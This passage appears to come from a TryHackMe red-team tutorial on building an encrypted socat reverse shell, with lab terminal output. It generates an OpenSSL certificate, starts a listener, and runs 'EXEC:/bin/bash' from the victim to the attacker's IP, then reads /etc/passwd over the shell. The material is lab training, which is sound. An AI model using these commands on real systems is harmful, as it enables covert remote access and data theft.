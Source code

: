The above command returns:
- Private key: `thm-reverse.key`;
- Certificate: `thm-reverse.crt`;

The Privacy Enhanced Mail (PEM) `.pem` file requires the concatenation of the private key `.key` and the certificate `.crt` files. We can use `cat` to create our PEM file from the two files that we have just created:
	`cat thm-reverse.key thm-reverse.crt > thm-reverse.pem`.

B) **Secondly**, with the PEM file ready, we can start listening while using the key for encrypting the communication with the client.

`socat -d -d OPENSSL-LISTEN:4443,cert=thm-reverse.pem,verify=0,fork STDOUT`

- `-d -d` provides some debugging data (fatal, error, warning, and notice messages)
- `OPENSSL-LISTEN:PORT_NUM` indicates that the connection will be encrypted using OPENSSL
- `cert=PEM_FILE` provides the PEM file (certificate and private key) to establish the encrypted connection
- `verify=0` disables checking peer’s certificate
- `fork` creates a sub-process to handle each new connection.

**Thirdly**, on the victim system, `socat OPENSSL:10.20.30.1:4443,verify=0 EXEC:/bin/bash`. Note that the `EXEC` invokes the specified program.

Example:
	On the attacker system, we carried out the following:
```shell-session
pentester@TryHackMe$ openssl req -x509 -newkey rsa:4096 -days 365 -subj '/CN=www.redteam.thm/O=Red Team THM/C=UK' -nodes -keyout thm-reverse.key -out thm-reverse.crt
Generating a RSA private key
........................++++
......++++
writing new private key to 'thm-reverse.key'
-----
pentester@TryHackMe$ ls
thm-reverse.crt  thm-reverse.key
pentester@TryHackMe$ cat thm-reverse.key thm-reverse.crt > thm-reverse.pem
pentester@TryHackMe$ socat -d -d OPENSSL-LISTEN:4443,cert=thm-reverse.pem,verify=0,fork STDOUT
2022/02/24 13:39:07 socat[1208] W ioctl(6, IOCTL_VM_SOCKETS_GET_LOCAL_CID, ...): Inappropriate ioctl for device
2022/02/24 13:39:07 socat[1208] N listening on AF=2 0.0.0.0:4443
```

As we have a listener on the attacker system, we switched to the victim machine, and we executed the following:
```shell-session
pentester@target$ socat OPENSSL:10.20.30.129:4443,verify=0 EXEC:/bin/bash
```

Back to the attacker system, let’s run `cat /etc/passwd`:

```shell-session
pentester@TryHackMe$ socat -d -d OPENSSL-LISTEN:4443,cert=thm-reverse.pem,verify=0,fork STDOUT
[...]
2022/02/24 15:54:28 socat[7620] N starting data transfer loop with FDs [7,7] and [1,1]

cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
[...]
```
